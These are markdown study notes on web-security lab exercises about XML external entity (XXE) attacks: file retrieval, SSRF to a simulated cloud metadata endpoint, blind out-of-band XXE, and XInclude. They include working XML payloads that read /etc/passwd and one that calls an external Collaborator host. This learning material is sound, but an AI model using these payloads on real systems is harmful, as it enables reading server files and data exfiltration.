 ## Exploiting XXE using external entities to retrieve files
- This lab has a check stock feature that parses XML input and returns any unexpected values in the response. To solve the lab, inject an XML external entity to retrieve the contents of the `etc/passwd` file.
- Let's learn a bit about XXE at first. Web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows viewing of files on the application server filesystem. May also allow interaction with back-end or external systems that the application itself can access.
- Apps use XML format to transmit data between browser and server. Apps that do this virtually always use a standard library or platform API to process the XML data on the server. Vulns arise because the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the app.
- XML external entities are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. External entities are particularly interesting from a security perspective because they allow an entity to be defined based on the contents of a file path or URL.
  - [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp)
  - For more on entities, [see](https://www.w3schools.com/xml/xml_dtd_entities.asp). The syntax is as follows: `<!ENTITY entity-name SYSTEM "URI/URL">` Refer to an entity in XML by `&entity-name;`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>
```

![image](https://github.com/user-attachments/assets/8b7cc000-507d-4896-95cc-c87e5ad1c674)

## Exploiting XXE to perform SSRF attacks 
- Check stock feature parses XML input and returns any unexpected values in the response. Lab is running a simulated EC2 metadata endpoint at the default URL, which is https://169.254.169.254/. Endpoint can be used to retrieve data about the instance, some of which may be sensitive.

![image](https://github.com/user-attachments/assets/9245f007-a1d3-48ce-816c-5e6546fc67be)

## Blind XXE with out-of-band interaction
- Lab has check stock feature that parses XML input but does not display the result. Can detect blind XXE by triggering out-of-band-interactions with an external domain. To solve the lab, use external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2uxjy21khbxivrd3pm9imsl7jyppdf14.oastify.com"> ]>
<stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
```

- You should see a DNS and HTTP request in your Collaborator. 

## Exploiting XInclude to retrieve files
- Can't control the entire XML document, so you can't define a DTD to launch a clssic XXE attack. To solve, inject an `XInclude` statement to retrieve the contents of the `/etc/passwd` file.
- Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.
  - SOAP is a messaging protocol for exchanging information between two computers based on XML over the internet. SOAP messages are written purely in XML.
- In this situation, as mentioned, can't carry out classic XXE attack because you don't control the entire XML document and cannot define or modify a DOCTYPE element. Might be able to use XInclude instead. XInclude part of XML specification that allows an XML document to be built from sub-documents.
- You can place an `XInclude` attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document. Example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- xmlns (XML Namespaces) provide a method to avoid element name conflicts. When using prefixes in XML, a namespace for the prefix must be [defined](https://www.w3schools.com/xml/xml_namespaces.asp)
![image](https://github.com/user-attachments/assets/0aec6233-9685-413f-994b-143f680060a9)

